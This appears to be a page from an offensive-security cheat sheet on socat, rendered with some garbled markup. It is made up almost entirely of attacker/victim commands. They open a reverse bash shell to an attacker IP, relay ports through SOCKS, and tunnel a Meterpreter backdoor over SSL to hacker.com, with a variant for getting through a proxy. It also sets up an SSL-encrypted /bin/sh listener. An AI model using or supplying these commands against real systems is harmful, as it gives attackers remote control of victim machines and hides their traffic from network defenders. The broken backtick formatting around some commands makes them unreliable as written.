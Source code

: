 ## Reverse shell<ins></ins>

|     |     |
| --- | --- |
| 1<br><br>2 | ``attacker> socat TCP-LISTEN:1337,reuseaddr FILE:` ```tty``` `,raw,```echo``=0`<br><br>`victim> socat TCP4:<attackers_ip>:1337 EXEC:``bash``,pty,stderr,setsid,sigint,sane` |

## Port2Port<ins></ins>

|     |     |
| --- | --- |
| 1   | `socat TCP-LISTEN:<lport>,fork TCP:<redirect_ip>:<rport> &` |

## Port2Port through socks<ins></ins>

|     |     |
| --- | --- |
| 1   | `socat TCP-LISTEN:1234,fork SOCKS4A:127.0.0.1:google.com:80,socksport=5678` |

## Meterpreter through SSL Socat<ins></ins>

|     |     |
| --- | --- |
| 1<br><br>2 | `#Create meterpreter backdoor to port 3333 and start msfconsole listener in that port`<br><br>`attacker> socat OPENSSL-LISTEN:443,cert=server.pem,cafile=client.crt,reuseaddr,fork,verify=1 TCP:127.0.0.1:3333` |

|     |     |
| --- | --- |
| 1<br><br>2 | `victim> socat.exe TCP-LISTEN:2222 OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5\|TCP:hacker.com:443,connect-timeout=5`<br><br>`#Execute the meterpreter` |

You can bypass a  **non-authenticated proxy**  executing this line instead of the last one in the victim’s console:

|     |     |
| --- | --- |
| 1   | `OPENSSL,verify=1,cert=client.pem,cafile=server.crt,connect-timeout=5\|PROXY:hacker.com:443,connect-timeout=5\|TCP:proxy.lan:8080,connect-timeout=5` |

<ins>https://funoverip.net/2011/01/reverse-ssl-backdoor-with-socat-and-metasploit/</ins>

## SSL Socat Tunnel<ins></ins>

**/bin/sh console**

Create certificates in both sides: Client and Server

|     |     |
| --- | --- |
| 1<br><br>2<br><br>3<br><br>4<br><br>5<br><br>6 | `# Execute this commands in both sides`<br><br>`FILENAME=socatssl`<br><br>`openssl genrsa -out $FILENAME.key 1024`<br><br>`openssl req -new -key $FILENAME.key -x509 -days 3653 -out $FILENAME.crt`<br><br>`cat` `$FILENAME.key $FILENAME.crt >$FILENAME.pem`<br><br>`chmod` `600 $FILENAME.key $FILENAME.pem` |

|     |     |
| --- | --- |
| 1<br><br>2 | `attacker-listener> socat OPENSSL-LISTEN:433,reuseaddr,cert=server.pem,cafile=client.crt EXEC:``/bin/sh`<br><br>`victim> socat STDIO OPENSSL-CONNECT:localhost:433,cert=client.pem,cafile=server.crt` |
